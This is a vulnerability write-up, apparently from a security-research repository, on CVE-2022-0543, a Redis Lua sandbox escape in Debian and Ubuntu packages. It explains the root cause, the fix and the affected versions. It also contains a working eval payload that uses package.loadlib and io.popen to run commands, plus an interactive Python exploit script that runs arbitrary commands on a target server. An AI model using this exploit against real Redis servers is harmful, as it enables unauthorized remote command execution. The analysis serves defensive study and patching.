




# CVE-2022-0543 CWE-862 Redis Lua Sandbox Escape RCE

## Vulnerability Background
- **Redis**: A key-value storage system that is a cross-platform non-relational database. An open-source in-memory database that provides a high-performance key-value storage system, commonly used in caching, message queues, session storage, and other application scenarios. Clients communicate with Redis servers via sockets, sending commands, and the server changes its state (i.e., its memory structure) to respond to such commands. To support Lua scripting functionality, Redis created a restricted execution environment (sandbox) within the Lua Virtual Machine. Clients can execute Lua scripts using `EVAL` commands, which are mainly used to operate on Redis's key-value data and call the Redis API, but cannot execute arbitrary code on machines running Redis.
- **Sandbox**: A security mechanism that allows applications or code to run in an isolated environment to prevent malware from impacting the host system. The working principle is to create an isolated runtime environment that is isolated from the host system, so files and processes inside the sandbox cannot access resources outside the sandbox. Applications inside the sandbox run in a restricted environment, which limits the application's permissions and prevents it from modifying system files or executing system commands.
- **Lua**: A lightweight programming language designed to be easy to embed into applications, providing scripting capabilities. Known for its concise syntax and dynamic type system, it supports multiple programming paradigms, including procedural programming, object-oriented programming, and functional programming.

## Vulnerability Mechanism
 After connecting to Redis, users can run the Lua script via the `eval` command, but this script runs in the sandbox and normally cannot execute commands or read files. The source for Debian and Ubuntu distributions left an object `package` in the Lua sandbox when packaging Redis. `package` module provides dynamic library loading functionality. Through its `loadlib` function, users can load system libraries (`.so` files) and call functions within the library. Attackers can use the method provided by this object to load functions from the dynamic link library `liblua`, thereby escaping the sandbox and executing arbitrary commands (while exploiting this vulnerability requires permission to execute `eval` commands in Redis).

Use the `loadlib` function of the variable `package` left in the Lua sandbox to load the export function `luaopen_io` from the dynamic link library `/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`. Running this export function in Lua will get the `io` library, then use it to run `id` commands:

```cmd
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

## Vulnerability Location
**1. Redis Official Source Code**

 The **redis-5.0.7 \src \scripting .c** file is responsible for implementing Redis's Lua scripting functionality. At line **854**, the `luaLoadLib` function is used to load the Lua standard library into the Lua environment. `LUA_LOADLIBNAME` and `LUA_OSLIBNAME` are macros defined in Lua, corresponding to the names of the loading package library and the operating system library, respectively. `luaopen_package` and `luaopen_os` are the initialization functions in the Lua standard library corresponding to the package and operating system libraries.

```c
#if 0 /* Stuff that we don't load currently, for sandboxing concerns. */
    luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);
    luaLoadLib(lua, LUA_OSLIBNAME, luaopen_os);
#endif
```

In this particular context, the `package` library allows Lua scripts to load other Lua modules, while the `os` library offers some operating system-level features such as file operations and system command execution. Wrapped by `#if 0` and `#endif`, meaning the code block is currently disabled by the preprocessor instruction and will not be executed at compile time, meaning these features are disabled in Redis's Lua sandbox environment to ensure scripts cannot perform operations that could compromise server security.

**2. Redis Debian Package Source Code**

Distributions like Ubuntu/Debian/CentOS add patch packages to Redis based on the original software, adding a 'include' feature. In the source code of Redis's Debian software package, the file **redis-5.0.7-debian \debian \rules**. This file contains instructions for building and installing Redis packages. It is the source code for the patch package generated by Debian using the shell using make. Line **30** shows the `make` rules used in the Debian build system to generate `lua_libs_debian.c` files. This file is part of the Redis project and is used to load Debian-specific Lua libraries in Redis's Lua environment.

```shell
debian/lua_libs_debian.c:
	echo "// Automatically generated; do not edit." >$@
	echo "luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);" >>$@
	set -e; for X in $(LUA_LIBS_DEBIAN_NAMES); do \
		echo "if (luaL_dostring(lua, \"$$X = require('$$X');\"))" >>$@; \
		echo "    serverLog(LL_NOTICE, \"Error loading $$X library\");" >>$@; \
	done
	echo 'luaL_dostring(lua, "module = nil; require = nil");' >>$@
```

The `echo luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);` statement is the source of the vulnerability. This command appends already annotated code to the file and calls the `luaLoadLib` function to load Lua's `package` library, resulting in a legacy package in the Lua sandbox. Attackers can use the method provided by this package object to load the dynamic link library liblua and then escape the sandbox to execute arbitrary commands.

Using the loadlib function of the variable package left over from the Lua sandbox, load the export function from the dynamic link library /usr/lib/x86_64-linux-gnu/liblua5.1.so.0 luaopen_io. Running this export function in Lua will get the IO library and then use it to execute commands.

## Remediation
Here you can see the vulnerability-free version redis-server_5.0.14-1+deb10u2_amd64.deb. The fix is to add a `package=nil` at the end of Lua initialization 

[File: rules | Debian Sources](https://sources.debian.org/src/redis/5%3A5.0.14-1%2Bdeb10u2/debian/rules/) 

```shell
debian/lua_libs_debian.c:
	echo "// Automatically generated; do not edit." >$@
	echo "luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);" >>$@
	set -e; for X in $(LUA_LIBS_DEBIAN_NAMES); do \
		echo "if (luaL_dostring(lua, \"$$X = require('$$X');\"))" >>$@; \
		echo "    serverLog(LL_NOTICE, \"Error loading $$X library\");" >>$@; \
	done
	echo 'luaL_dostring(lua, "module = nil; require = nil; package = nil");' >>$@
```

## Affected Versions
Redis services are limited to Debian and Debian-derived Linux distributions (such as Ubuntu).

**Debian**:

- Debian 11 "bullseye": Versions prior to 5:6.0.16-1+deb11u2
- Debian 10 "buster": versions prior to 5:5.0.14-1+deb10u2
- Debian 9 "stretch": Versions prior to 4.0.2-2+deb9u5

**Ubuntu**:

- Versions prior to Ubuntu 21.10:6.0.15-1
- Ubuntu 20.04 LTS: versions 5.0.7-2 or earlier than Ubuntu 0.2
- Ubuntu 18.04 LTS: 4.0.9-1 versions prior to ubuntu 0.2

## Environment Setup
Start Redis 5.0.7 using Docker 



**docker**

Using ubuntu 20.04 as the base image, I checked that there are two versions of redis-server in the library.



Checking the redis-server update log on the official Ubuntu website, you can see that the vulnerability in version 5:5.0.7-2 ubuntu 0.1 has been fixed, so choose version 5:5.0.7-2 when using it

 

## Vulnerability Reproduction
Use the redis-cli tool on the attack drone to connect to the target drone's Redis server and construct the following payload for command execution.

```cmd
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

`id` command was successfully executed.



## PoC Analysis

```cmd
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

Among them,

1. Use `package.loadlib` to dynamically load the `liblua5.1.so.0` library with the specified path and obtain the `luaopen_io` function (for loading `io` modules). However, the library path differs in different environments (using Command `find / -name liblua5.1.so.0` to find the path). In the Vulhub environment (Ubuntu focal), this path is `/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`.

   ```cmd
   local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
   ```

2. Call the export function `luaopen_io`, return the `io` library module in Lua, and assign the returned result to the `io` variable, simulating the built-in `io` module of Lua, allowing us to directly access and use all methods in the `io` library.

   ```cmd
   local io = io_l();
   ```

3. Use `io.popen` to open a pipe and execute the `id` command to read the return value. This command outputs information such as the current user's ID, group ID, and other information.

   ```cmd
   local f = io.popen("id", "r");
   ```

4. Read all outputs of `id` commands and store them in `res`.

   ```cmd
   local res = f:read("*a");
   ```

5. Close the pipeline and return the result of the `id` command.

   ```cmd
   f:close(); 
   return res
   ```

## Exploit Analysis
Run the EXP file, enter the relevant parameters, and successfully enter the command line to execute the command

```cmd
 python CVE-2022-0543-EXP.py
```



```python
import redis
import sys

def echoMessage():

#Generates the Lua script lua, where the system command cmd is executed via io.popen
def shell(ip,port,cmd,auth):
	lua= 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("'+cmd+'", "r"); local res = f:read("*a"); f:close(); return res'
	r  =  redis.Redis(host = ip,port = port, password = auth)
	script = r.eval(lua,0)
	print(script)

if __name__ == '__main__':
	ip = input("Please input redis ip:\n>>")
	port = input("Please input redis port:\n>>")
	auth = input("Auth:\n>>")
	if auth == "":
		auth = None
	while True:
		cmd = input("input exec cmd:(q->exit)\n>>")
		if cmd == "q" or cmd == "exit":
			sys.exit()
		shell(ip,port,cmd,auth)
```

## References
[vulhub/redis/CVE-2022-0543](https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.zh-cn.md)

[Chunqiu Yunjing: CVE-2022-0543 (Redis Sandbox Escape Vulnerability)](https://blog.csdn.net/m0_65712192/article/details/132407631)

[CVE-2022-0543 Redis Sandbox Escape Analysis - FreeBuf Cybersecurity Industry Portal](https://www.freebuf.com/news/325729.html)

[CVE-2022-0543 reappears | Redis Remote Code Execution Vulnerability - h0cksr - Blogpark](https://www.cnblogs.com/h0cksr/p/16189735.html)

[Unexpected Redis sandbox escape, affecting only Debian, Ubuntu, and other Debian derivatives](https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce)
